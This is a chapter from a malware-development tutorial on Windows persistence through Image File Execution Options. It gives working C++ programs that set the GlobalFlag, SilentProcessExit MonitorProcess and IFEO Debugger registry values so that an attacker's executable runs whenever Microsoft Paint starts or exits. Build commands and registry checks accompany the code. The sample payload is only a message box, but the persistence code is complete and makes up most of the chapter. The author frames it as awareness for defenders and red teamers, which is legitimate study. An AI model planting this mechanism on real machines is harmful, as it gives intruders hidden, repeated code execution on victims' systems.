



\newpage
\subsection{76. malware development: persistence - part 10. Using Image File Execution Options. Simple C++ example.}

﷽

{width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via Image File Execution Options.

### Image File Execution Options   

IFEO enables developers to attach a debugger to an application or process. This allows the debugger/application to run concurrently with the application being debugged.    

How to set this feature? We can launch a process/program when another application silently exits.    

*Silent exit* for an application means the application has been terminated in one of two ways:
1. Self termination by calling `ExitProcess`
2. Another process terminates the monitored process by calling `TerminateProcess`

This is configurable via the following registry key:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\SilentProcessExit`        

### practical example

Let's go to run our malware once Microsoft Paint (`mspaint.exe`) is silently exiting.     

So, let's say we have our "malware" (`hack.cpp`):   

```cpp
/*
hack.cpp
evil app for windows persistence via IFEO
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, as usually, I use "meow-meow" message box "malware" =^..^=    

Then, create persistence script for modify registry (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows 
  NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
    RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  //"SOFTWARE\\Microsoft\\Windows 
  //NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t 
    // REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d 
    // "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
    (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

So what have we done here? Firstly, we created `SilentProcessExit` key under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, then  enabled silent process exit monitoring feature by adding `GlobalFlag`:    

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
// Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, 
(const BYTE*)&gF, sizeof(gF));
//...
```

By setting `MonitorProcess` to `...\hack.exe` and `ReportingMode` to `1`, every silent exit of `mspaint.exe` will now trigger the execution of our "malware" `hack.exe`:     

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
(const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, 
strlen(exe));
```

### demo

Let's go to see everything in action. Compile malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Run it, just for check correctness:    

{width="80%"}    


So, check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

{width="80%"}    

also `SilentProcessExit`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

{width="80%"}    

As you can see, as expected, some registry keys are missing for our target application. So when it starts and closes nothing happens:    

{width="80%"}    

{width="80%"}    

Well, now let's compile:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

and run our script for persistence `pers.exe`, then check registry keys again:    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

{width="80%"}    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

{width="80%"}    

Finally, run `mspaint.exe` again:    

{width="80%"}    

{width="80%"}    

and close it:    

{width="80%"}    

The `ReportingMode` registry key enables the Windows Error Reporting process (`WerFault.exe`) which will be the parent process of the `MonitorProcess` key value `hack.exe`:    

{width="80%"}    

> `WerFault.exe` - used for tracking errors related to operating system, Windows features and applications.    

### IFEO debugger type

There are another implementation of IFEO via debugger key. Just create a debugger to a victim process in this registry key:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

then only requires the malicious application to be stored in `System32`.    

So source code is simple and looks like this:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // evil app
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Let's compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

An example of how this appears in action:    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

When the Microsoft Paint process (`mspaint.exe`) is launched this will cause the malware to be executed. Perfect!    

This persistence trick is used by [APT29](https://attack.mitre.org/groups/G0016/) group and software like [SUNBURST](https://attack.mitre.org/software/S0559/) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[ATT&CK MITRE: IFEO Injection](https://attack.mitre.org/techniques/T1183/)    
[MSDN: Monitoring Silent Process Exit](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/registry-entries-for-silent-process-exit)      
[Persistence using GlobalFlags in Image File Execution Options - Hidden from autoruns.exe](https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/)     
[APT29](https://attack.mitre.org/groups/G0016/)     
[SUNBURST](https://attack.mitre.org/software/S0559/)    
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-09-10-malware-pers-10)    
